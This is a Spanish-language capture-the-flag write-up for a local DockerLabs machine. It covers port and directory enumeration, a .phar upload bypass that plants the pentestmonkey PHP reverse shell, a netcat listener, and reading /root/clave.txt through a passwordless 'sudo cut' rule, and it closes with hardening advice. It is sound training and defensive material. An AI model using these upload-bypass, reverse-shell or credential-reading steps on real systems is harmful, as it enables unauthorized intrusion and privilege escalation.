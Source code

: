 # 🛡️ Informe de Pentesting - DockerLabs

---

## 📄 Información General

* **Máquina**: DockerLabs
* **Objetivo**: Obtener acceso root
* **Descripción**: Análisis completo de una máquina vulnerable desplegada con Docker, enfocándose en la enumeración, explotación y escalada de privilegios.

---

## ⚙️ 1. Despliegue de la Máquina

Primero, descargamos y extraemos la máquina vulnerable:

```bash
unzip dockerlabs.zip
```

Después, la desplegamos con el script automático:

```bash
sudo bash auto_deploy.sh dockerlabs.tar
```
![Despliegue](/Dockerlabs/Imàgenes/Logo.png)

---

## 📶 2. Verificación de Conectividad

Hacemos ping a la IP de la máquina para asegurarnos de que está activa:

```bash
ping -c1 172.17.0.2
```

![Ping](DockerLabs/Imàgenes/Capturas.png)

---

## 🔍 3. Enumeración de Puertos con Nmap

Escaneamos todos los puertos para encontrar servicios activos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![Nmap puertos](DockerLabs/Imàgenes/Capturas_1.png)

Extraemos los puertos encontrados usando un script personalizado:

```bash
extractPorts allPorts.txt
```

Luego realizamos un escaneo más profundo:

```bash
nmap -sC -sV -p 80 172.17.0.2 -oN target.txt
```

![Nmap detalle](DockerLabs/Imàgenes/Capturas_2.png)

---

## 🌐 4. Análisis Web

Accedemos al sitio en `http://172.17.0.2/`:

![Página principal](DockerLabs/Imàgenes/Capturas_4.png)

### 🔦 Fuzzing con Wfuzz

Buscamos directorios ocultos con:

```bash
wfuzz -c -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://172.17.0.2/FUZZ
```

Se descubre `/uploads`.

![wfuzz](DockerLabs/Imàgenes/Capturas_6.png)

Ingresamos en:

```url
http://172.17.0.2/uploads/
```

![Uploads](DockerLabs/Imàgenes/Capturas_5.png)

### 🔎 Descubrimiento adicional con Gobuster

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

![Gobuster](DockerLabs/Imàgenes/Capturas_7.png)

Rutas identificadas:

* `/index.php`
  ![index](DockerLabs/Imàgenes/Capturas_9.png)
* `/uploads/`
  ![uploads](DockerLabs/Imàgenes/Capturas_8.png)
* `/upload.php`
  ![upload](DockerLabs/Imàgenes/Capturas_10.png)
* `/machine.php`
  ![machine](DockerLabs/Imàgenes/Capturas_11.png)

---

## 🐚 5. Carga de Web Shell (Reverse Shell)

El formulario en `/machine.php` indica que solo se aceptan archivos `.zip`. Usamos la técnica de **doble extensión**.

### 💾 Código PHP de reverse shell:

Obtenido desde:
[https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

Cambiamos la IP y el puerto y luego renombramos el archivo:

```bash
mv php-reverse-shell.php php-reverse-shell.php.zip
```

![Archivo cargado](DockerLabs/Imàgenes/Capturas_13.png)

El archivo se carga correctamente:

![Éxito](DockerLabs/Imàgenes/Capturas_14.png)
![Verificado en uploads](DockerLabs/Imàgenes/Capturas_15.png)

Pero al intentar ejecutarlo, no se activó la shell. Probamos cambiando la extensión a `.phar`:

```bash
mv php-reverse-shell.php.zip php-reverse-shell.phar
```

![Cambio a .phar](DockerLabs/Imàgenes/Capturas_19.png)

---

### 🎧 Escucha con Netcat

Antes de activar el archivo malicioso, iniciamos Netcat:

```bash
sudo nc -lvnp 443
```

![Netcat](DockerLabs/Imàgenes/Capturas_18.png)

Luego accedemos al archivo desde el navegador. ¡La shell se activa!

![Shell activa](DockerLabs/Imàgenes/Capturas_21.png)

---

## 🔐 6. Escalada de Privilegios

### 🧪 Revisión de permisos con `sudo -l`

```bash
sudo -l
```

Resultado:

```text
User www-data may run the following commands on dockerlabs:
    (ALL) NOPASSWD: /usr/bin/cut
```

Esto significa que el usuario `www-data` puede ejecutar el comando `cut` como root, sin necesidad de contraseña.

---

### 🔎 Exploración y descubrimiento de pistas

Buscamos archivos interesantes:

```bash
cd /opt/
cat nota.txt
```

Contenido:

> Protege la clave de root, se encuentra en su directorio /root/clave.txt, menos mal que nadie tiene permisos para acceder a ella.

---

### ✂️ Explotación del permiso con `cut`

Aunque no podemos leer directamente el archivo, usamos `cut` con sudo para hacerlo como root:

```bash
sudo /usr/bin/cut -d "" -f1 /root/clave.txt
```

![Clave root](DockerLabs/Imàgenes/Capturas_22.png)

**¿Por qué funciona?**

* `cut` espera un delimitador, pero aquí se pasó uno vacío (`""`).
* Esto puede fallar en sistemas más estrictos, pero en este caso devolvió toda la línea del archivo (probablemente porque no había delimitadores).
* Así conseguimos leer **la clave root** sin permisos de lectura directos.

---

### 🔓 Acceso Root

Con la clave obtenida, accedemos como root:

```bash
su root
```

🎉 ¡Acceso total a la máquina!

---

## ✅ Conclusiones

| Fase               | Resultado                                                 |
| ------------------ | --------------------------------------------------------- |
| Escaneo de puertos | Descubierto puerto 80 (HTTP)                              |
| Análisis web       | Directorios `/uploads`, `/upload.php`, `/machine.php`     |
| Explotación        | Web shell vía `.phar` + reverse shell con Netcat          |
| Escalada           | Acceso a archivo root mediante `sudo cut` mal configurado |

---

### ⚠️ Recomendaciones de Seguridad

* **Nunca** otorgar permisos `sudo` sin contraseña a comandos como `cut`, `less`, `vim`, etc.
* Validar extensiones de archivo de forma segura (no solo por el nombre).
* Configurar entornos aislados y sin privilegios para aplicaciones web.
